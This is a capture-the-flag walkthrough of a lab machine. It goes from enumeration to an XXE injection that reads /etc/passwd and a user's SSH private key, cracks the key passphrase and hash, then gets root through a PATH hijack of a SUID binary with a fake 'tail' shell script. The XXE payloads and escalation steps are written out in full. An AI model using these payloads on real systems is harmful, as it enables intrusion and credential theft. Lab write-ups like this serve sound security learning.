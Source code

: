 ## Target IP: `10.10.101.253`
---

## Initial Enumeration

### Export Environment Variables

```bash
export IP=10.10.101.253
export LIP=10.6.24.56
```

### Nmap Scan

```bash
sudo nmap -sC -sV -T4 -O $IP -oN nmap_scan.txt
```

### Open Ports

| Port | Service | Version |
| --- | --- | --- |
| 22 | SSH | OpenSSH 7.2p2 |
| 80 | HTTP | Apache 2.4.18 |
| 8765 | HTTP | Ultraseek HTTP |

---

## Web Enumeration (Port 80)

### Home Page

- Mustache grooming site.
- Has a **contact form**.
- Nothing obvious in source code.

### Directory Busting

Found:

- `/custom`
- `/images` → contains images
- `/robots.txt` → nothing of interest

Inside `/custom/js/` → `users.bak` (SQLite file)

```bash
file users.bak         # Confirms it's SQLite
sqlite3 users.bak      # Opens it
```

Credentials found inside:

```bash
Username: admin
Hash: 1868e36a6d2b17d4c2745f1659433a54d4bc5f4b
```

Use CrackStation → Password: `[REDACTED]`

---

## Port 8765 - Ultraseek HTTP (Admin Panel)

### Admin Login

Navigate to:

```
http://10.10.101.253:8765
```

Login:

```
admin:[REDACTED]
```

This gives a “Submit a comment” form.

Intercepted POST request shows:

```
document.cookie = "Example=/auth/dontforget.bak";
<!-- Barry, you can now SSH in using your key! -->
```

Download the `.bak` file:

```bash
wget http://10.10.101.253/auth/dontforget.bak
```

Looks useless, but it was a hint.

---

## Exploiting XXE (XML External Entity Injection)

The web app takes XML input, so the first step is testing whether it processes the XML as expected:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<root>
    <author>hacc</author>
    <name>Hackerman</name>
</roo
```

This confirms basic XML parsing works. But the real goal is to see if we can abuse the XML parser—specifically, if it lets us define external entities that point to local files on the server.

This type of attack is called **XXE (XML External Entity Injection)**. It happens when an XML parser is misconfigured and allows us to define external entities, usually to access local files or do other malicious things.

To test for XXE, we inject an external entity that tries to read `/etc/passwd`:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE author [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<root><author>&read;</author></root>
```

Here’s what’s happening:

- `<!DOCTYPE author [...]>` defines a new XML document type.
- `<!ENTITY read SYSTEM 'file:///etc/passwd'>` creates an entity named `read` that pulls in the contents of `/etc/passwd`.
- `<author>&read;</author>` uses that entity in the XML body.

If the app reflects back or stores the XML and we see the contents of `/etc/passwd` in the response, we know XXE is working.

### Dumping Private Key via XXE

Once we confirm that, we use the same approach to read more sensitive files—like a user’s SSH key:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE author [<!ENTITY read SYSTEM 'file:///home/barry/.ssh/id_rsa'>]>
<root><author>&read;</author></root>
```

This pulls Barry's private key if permissions allow it. From there, we can try to crack the key if it’s encrypted, or log in directly if it’s not.

---

## Cracking RSA Key

Save key as `rsa_id.pem`. Then crack it:

```bash
ssh2john rsa_id.pem > hash.txt
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

Passphrase: `[REDACTED]`

---

## SSH as Barry

```bash
chmod 600 rsa_id.pem
ssh -i rsa_id.pem barry@$IP
```

---

## User Flag

```bash
cat user.txt
# → [REDACTED]
```

---

## Privilege Escalation via PATH Hijack + SUID

```bash
sudo -l
# → (ALL, !root) NOPASSWD: /home/joe/live_log
```

### What’s going on?

- `live_log` is **SUID**, meaning it runs as its owner (probably root).
- It executes `tail` inside the binary.
- Since binaries search for `tail` using the PATH variable **in order**, we can hijack it by placing our own fake `tail` script earlier in the PATH.

### Why this works

- SUID makes the binary run as root.
- The binary uses `tail -f /var/log/nginx/access.log`.
- If we redefine `tail` to launch a shell, the binary (running as root) will execute our malicious script.

---

### Full Exploit Steps

1. Create a script:

```bash
cd /tmp
nano tail
```

Contents:

```bash
#!/usr/bin/python3
import pty
pty.spawn("/bin/bash")
```

1. Make it executable:

```bash
chmod +x tail
```

1. Hijack the PATH:

```bash
export PATH=/tmp:$PATH
```

1. Execute SUID binary:

```bash
/home/joe/live_log
```

You're now root.

---

## Root Flag

```bash
cd /root
cat root.txt
# → [REDACTED]
```
